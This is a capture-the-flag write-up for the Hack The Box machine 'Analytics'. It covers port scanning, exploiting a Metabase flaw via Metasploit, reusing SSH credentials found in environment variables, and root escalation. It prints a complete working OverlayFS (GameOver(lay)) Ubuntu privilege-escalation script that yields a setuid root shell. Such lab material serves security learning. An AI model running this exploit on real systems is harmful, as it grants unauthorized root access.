



# Analytics
https://app.hackthebox.com/machines/Analytics

## Port scan

### Tool used: nmap
<br>

```
nmap -p 22,80 analytical.htb                                            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-15 02:25 EDT
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.053s latency).
rDNS record for 10.10.11.233: analytical

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Web

Browsing the URL points us to a basic website, with the *login* page taking us to a second URL: **data.analytical.htb**<br><br>


<br><br>


<br><br>

A quick search for *Metabase* exploits leads us to CVE-2023-38646 (https://github.com/securezeron/CVE-2023-38646). We can use this exploit with Metasploit. We end up logged in with the *metabase* user:




<br><br>

We setup a simple python web server on our host so we can run our favorite enumeration script (LinEnum). Here, we find some interesting environment variables, such as possible SSH credentials:


<br><br>

The credentials worked and allowed us to login via SSH as the *metabase* user, where we get the user.txt flag.

## user.txt

```
d4219d**************************
```

Next, we try to find a way to escalate our privileges. Nothing stands out, so we go back to the basics and see what kind of exploits we can find for the given OS version:

```
cat /etc/os-release 

PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
```

After some research, we find that 22.04.3 is susceptible to CVE-2023-2640 & CVE-2023-32629. We simply copy the following code into *exploit.sh* and execute it on the machine:

```sh
#!/bin/bash

# CVE-2023-2640 CVE-2023-3262: GameOver(lay) Ubuntu Privilege Escalation
# by g1vi https://github.com/g1vi
# October 2023

echo "[+] You should be root now"
echo "[+] Type 'exit' to finish and leave the house cleaned"

unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

Now that we have escalated privileges, we get the root.txt flag. 

## root.txt

```
05dddf**************************
```